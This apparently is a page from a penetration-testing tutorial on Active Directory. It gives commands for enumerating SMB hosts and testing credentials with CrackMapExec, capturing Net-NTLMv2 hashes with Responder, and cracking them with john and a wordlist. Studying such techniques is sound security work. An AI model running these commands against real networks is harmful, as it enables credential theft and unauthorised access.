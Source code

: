 # Active Directory {-}

## Enumerate machines by SAMBA with crackmapexec {-}

**CrackMapExec** (a.k.a **CME**) is a post-exploitation tool that helps automate assessing the security of large Active Directory networks.

```bash
cme smb 192.168.0.0/24
```

If we have credentials of a user, and this one have admin priviledges on machines, You can use **CrackMapExec** to check those priviledges.
If it's the case, you will see a (Pwn3d!) in the result.

```bash
cme smb 192.168.0.0/24 -u 'user' -p 'password1'
```


## Sniffing traffic for SAMBA Relay with responder {-}

When SAMBA is created, by default SAMBA cert is not signed. That means that by default it's not possible to validate the origin legitimity. 
In this case Attacker can use tools like responder in order to sniff SAMBA communication traffic.

```bash
cd /usr/share/responder
# config file is in Responder.conf
python3 Responder.py -I eth0 -rdw
```

As soon as a connection is launched, you can see the communication. And because the SAMBA is not signed you can then get the **Hash Net-NTLMv2** of the user.

```r
knitr::include_graphics("images/ad-hashnetntlmv2.png")
```

What attacker can do with this hash?

1. copy hashes in a file (*hashes*)
1. bruteforce hashes file with john
    ```bash
    john --wordlist=/usr/share/wordlists/rockyou.txt hashes
    ```


